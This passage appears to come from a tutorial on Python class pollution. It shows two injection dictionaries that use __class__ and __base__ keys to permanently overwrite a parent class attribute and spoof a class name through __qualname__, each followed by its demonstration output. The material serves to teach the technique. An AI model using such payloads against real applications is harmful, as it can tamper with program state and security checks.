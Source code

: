 ```
```

10. To change the class attribute of `Person`,
```python
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {
        '__base__' : {
            'target1' : 'PERMANENT POLLUTION #1'
        }
    }
} 
```
- Equivalent to `abc.__class__.__base__.target1 = 'PERMANENT POLLUTION #1'`
Output:
```
<myPackage.User object at 0x000001CD2B6CAD20>
Target 1:  PERMANENT POLLUTION #1
Target 2:  TEMPORARY POLLUTION #2
Target 3:  TEMPORARY POLLUTION #3
<myPackage.User object at 0x000001CD2B6CAE40>
Target 1:  PERMANENT POLLUTION #1
Target 2:  Victim
Target 3:  change this
<myPackage.Person object at 0x000001CD2B6CAD80>
Target 1:  PERMANENT POLLUTION #1
False
```

11. Side quest: To spoof the type of `Person`, we can change the `__qualname__` attribute of the `__class__`.
```PYTHON
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {
        '__base__' : {
            'target1' : 'PERMANENT POLLUTION #1',
            '__qualname__' : 'CLASS NAME POLLUTION'
        }
    }
} 
```
Output:
```
<myPackage.User object at 0x000001736052AD50>
Target 1:  PERMANENT POLLUTION #1
Target 2:  TEMPORARY POLLUTION #2
Target 3:  TEMPORARY POLLUTION #3
<myPackage.User object at 0x000001736052AE70>
Target 1:  PERMANENT POLLUTION #1
Target 2:  Victim
Target 3:  change this
<myPackage.CLASS NAME POLLUTION object at 0x000001736052ADB0>
Target 1:  PERMANENT POLLUTION #1
False
```
- Notice that the name of `Person` is now `CLASS NAME POLLUTION`
